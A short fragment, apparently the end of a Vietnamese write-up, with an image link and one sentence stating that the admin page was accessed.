

Kết quả là đã truy cập được trang của admin


